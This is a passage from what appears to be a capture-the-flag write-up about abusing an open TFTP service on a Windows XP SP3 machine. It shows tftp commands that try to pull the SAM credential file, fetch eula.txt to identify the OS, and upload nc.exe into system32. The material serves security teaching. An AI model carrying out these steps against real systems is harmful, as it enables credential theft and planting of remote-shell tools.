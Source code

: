 ```

tftp> get \windows\system32\config\sam
Error code 1: The process cannot access the file 'C:\windows\system32\config\sam' because it is being used by another process.

```

Well that’s interesting. No error about permissions, but rather just about the file being in use. I am likely running as a privileged user.

#### OS Determination

`\windows\system32\license.rtf` and/or `\windows\system32\eula.txt` will help determine the Windows OS version based.

```

tftp> get \windows\system32\license.rtf
Error code 1: Could not find file 'C:\windows\system32\license.rtf'.
tftp> get \windows\system32\eula.txt
Received 41543 bytes in 28.7 seconds

```

```

root@kali# head '\windows\system32\eula.txt'
END-USER LICENSE AGREEMENT FOR MICROSOFT
SOFTWARE

MICROSOFT WINDOWS XP PROFESSIONAL EDITION
SERVICE PACK 3

IMPORTANT-READ CAREFULLY: This End-User
License Agreement ('EULA') is a legal
agreement between you (either an individual
or a single entity) and Microsoft Corporation

```

So this is a Windows XP SP3 box. No wonder nothing is open, as it would be vulnerable to a ton of different exploits.

#### Read/Write to System32

Being able to write to `system32` is quite useful. I did a simple test:

```

tftp> put nc.exe \windows\system32\nc.exe
Sent 38866 bytes in 29.3 seconds
tftp> get \windows\system32\nc.exe
Received 38866 bytes in 28.0 seconds

```
